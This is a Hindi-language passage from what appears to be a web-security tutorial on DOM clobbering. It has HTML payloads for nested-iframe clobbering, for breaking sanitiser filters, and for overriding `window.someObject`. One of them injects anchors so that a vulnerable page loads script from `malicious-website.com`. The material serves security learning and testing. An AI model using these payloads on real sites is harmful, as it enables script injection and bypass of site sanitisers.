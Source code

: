 गहरे गुणों को अवरोधित करने के लिए, आप **एचटीएमएल कोडिंग के साथ आईफ्रेम्स** का उपयोग कर सकते हैं इस तरह से:
```html
<iframe name=a srcdoc="<iframe srcdoc='<iframe name=c srcdoc=<a/id=d&amp;amp;#x20;name=e&amp;amp;#x20;href=\controlled&amp;amp;gt;<a&amp;amp;#x20;id=d&amp;amp;gt; name=d>' name=b>"></iframe>
<style>@import 'https://google.com';</style>
<script>
alert(a.b.c.d.e)//controlled
</script>
```
### **फ़िल्टर बाईपास**

यदि एक फ़िल्टर नोड की **संपत्तियों** को `document.getElementByID('x').attributes` जैसी कुछ चीज़ों के माध्यम से **लूप** कर रहा है, तो आप **एट्रिब्यूट** **`.attributes`** को **क्लॉबर** कर सकते हैं और फ़िल्टर को **टूटा सकते** हैं। **`tagName`**, **`nodeName`** या **`parentNode`** जैसी अन्य DOM संपत्तियां भी **क्लॉबर** की जा सकती हैं।
```html
<form id=x></form>
<form id=y>
<input name=nodeName>
</form>
<script>
console.log(document.getElementById('x').nodeName)//FORM
console.log(document.getElementById('y').nodeName)//[object HTMLInputElement]
</script>
```
## **`window.someObject` को Clobber करना**

जोखिम उठाने वाले जावास्क्रिप्ट डेवलपर्स द्वारा एक सामान्य पैटर्न है:
```javascript
var someObject = window.someObject || {};
```
यदि आप पृष्ठ पर कुछ HTML को नियंत्रित कर सकते हैं, तो आप `someObject` संदर्भ को एक DOM नोड, जैसे एंकर के साथ अवरोधित कर सकते हैं। निम्नलिखित कोड को विचार करें:
```html
<script>
window.onload = function(){
let someObject = window.someObject || {};
let script = document.createElement('script');
script.src = someObject.url;
document.body.appendChild(script);
};
</script>
```
इस भेद्यता युक्त कोड का शोषण करने के लिए, आप निम्नलिखित HTML को इंजेक्ट कर सकते हैं ताकि `someObject` संदर्भ को एंकर तत्व के साथ ओवरफ़्लो करें:

{% code overflow="wrap" %}
```html
<a id=someObject><a id=someObject name=url href=//malicious-website.com/malicious.js>
```
{% endcode %}
